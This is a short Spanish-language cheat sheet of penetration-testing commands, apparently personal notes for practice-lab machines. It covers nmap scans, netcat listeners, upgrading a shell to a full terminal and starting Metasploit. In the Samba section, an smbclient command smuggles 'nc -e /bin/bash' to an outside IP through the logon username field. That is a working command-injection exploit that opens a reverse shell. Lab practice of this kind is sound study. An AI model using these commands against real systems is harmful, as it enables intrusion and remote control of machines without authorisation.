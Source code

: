 # Comandos interesantes

## NMAP

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

Puertos UDP, Los primeros 100
<pre>
nmap -sU -sCV -p1-100 192.168.168.193 -oN targetedUDP
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
scrip /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

Fijarse bien en la IP que conecta.


## Metasploit

### Iniciar la primera vez

Arrancamos servicio de base de datos
<pre>
sudo service postgresql start
</pre>

Inicamos bbdd de metasploit

<pre>
sudo msfdb init
</pre>

Despues como siempre

<pre>
msfconsole
</pre>
